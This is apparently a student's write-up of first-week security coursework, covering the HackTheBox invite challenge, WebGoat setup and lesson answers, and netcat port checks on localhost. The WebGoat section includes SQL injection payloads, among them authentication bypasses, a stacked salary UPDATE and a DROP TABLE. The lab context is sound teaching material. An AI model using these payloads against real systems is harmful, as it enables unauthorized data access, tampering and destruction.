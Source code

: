 # H1

Solutions to first week assignments.

## Table of Contents

* [a) Get invited to HackTheBox](#a-get-invited-to-HackTheBox)
* [b) Install WebGoat and login](#b-install-webgoat-and-login)
* [c) Solve WebGoat assignments](#c-solve-webgoat-assignments)
* [d) Install Kali Linux and test it out](#d-install-kali-linux-and-test-it-out)

---

## a) Get invited to HackTheBox

* opened developer console and found the first clue, that pointed me to search interesting Javascript file
* found a file pretty fast named inviteapi.min.js, that had an obfuscated Javascript function. I didn't try to solve the obfuscation and just tried the makeInviteCode function, which was the next clue. It guided me to make POST HTTP request to /api/invite/how/to/generate
* I did a POST HTTP request with curl to /api/invite/how/to/generate and received BASE64 encoded string

  ```shell
  curl -L -v -X POST www.hackthebox.eu/api/invite/how/to/generate
  ```

* I opened the encoded string like this and received the next clue

  ```shell
  echo "SW4gb3JkZXIgdG8gZ2VuZXJhdGUgdGhlIGludml0ZSBjb2RlLCBtYWtlIGEgUE9TVCByZXF1ZXN0IHRvIC9hcGkvaW52aXRlL2dlbmVyYXRl" | base64 -d
  ```

* clue was: "In order to generate the invite code, make a POST request to /api/invite/generate"

  ```shell
  curl -L -v -X POST www.hackthebox.eu/api/invite/generate
  ```

* call gave me another BASE64 encoded string, which I opened and it gave me the code to log in to HackTheBox

  ```shell
  echo "QVNLQ1ItTkNTRk0tR0RRQ0UtQklQUUQtTVlSVUI" | base64 -d
  ```

---

## b) Install WebGoat and login

I downloaded [WebGoat Docker image](https://hub.docker.com/r/webgoat/webgoat-8.0/), ran it and managed to log in.

---

## c) Solve WebGoat assignments

* HTTP Basics
  - The HTTP Basics assignment was quite easy. Just needed to open developer console and view the source code to see that they validated, that posted magic number was 55
* Developer tools
  - Developer tools opens in Opera(MacOS) with command + options + i keyboard shortcut
  - CTRL+L clears console in Opera's console
  - calling the webgoat.customjs.phoneHome() function in console printed me the required output with -1182196480 phone number
  - opening the network tab in developer console and sending the request shows a request called network, which had a header with networkNum named form data with value of 32.69182959869092
* CIA Triad
  - 1 - 3
  - 2 - 1
  - 3 - 4
  - 4 - 2
* A1 Injection (intro)

  - select Bobs department

    ```sql
    SELECT department FROM Employees WHERE first_name = 'Bob' and last_name = 'Franco';
    ```

  - update Tobi Barnett's department

    ```sql
    UPDATE employees SET department = 'Sales' WHERE userid IN (select userid from employees WHERE first_name = 'Tobi' and last_name = 'Barnett')
    ```

  - add column to table

    ```sql
    ALTER TABLE employees ADD phone varchar(20);
    ```

  - grant alter table to

    ```sql
    GRANT ALTER TABLE TO UnauthorizedUser
    ```

  - injection

    ```sql
    SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
    ```

  - numeric sql injection: use numeral instead of strings

    ```sql
    SELECT * From user_data WHERE Login_Count = 1 and userid = 1 or 1 = 1
    ```

  - confidentiality

    ```sql
    SELECT * FROM employees WHERE last_name = 'Smith' AND auth_tan = '1' OR '1' = '1';
    ```

  - integrity: close the auth_tan query and inject and update clause

    ```sql
    SELECT * FROM employees WHERE last_name = 'Smith' AND auth_tan = '"'; UPDATE employees SET salary = 100000 WHERE auth_tan = '"3SL99A"'
    ```

  - availability: close the select query and add a drop clause which uncomments the end of the select clause

    ```sql
    SELECT * FROM access_log where action = '%'; DROP TABLE access_log --%;
     ```

---

## d) Install Kali Linux and test it out

I created a tool([setup-dev-env.sh](../tools/setup-dev-env.sh) bash script), that sets up a development environment for me. It runs WebGoat in Docker and Kali Linux on VirtualBox using Vagrant.

I tried netcat to test if my local machine had port 53 open.

    nc -v -w 3 localhost 53

The port was closed as suspected: <i><b>localhost [127.0.0.1] 53 (domain) : Connection refused</i></b>. I wanted to scan the udp port as well to see what does it report.

    nc -v -w 3 -u localhost 53

And interestinly it reported, that the 53/udp port was open: <i><b>localhost [127.0.0.1] 53 (domain) open</i></b>. The port is for local DNS responses, so it should be open.

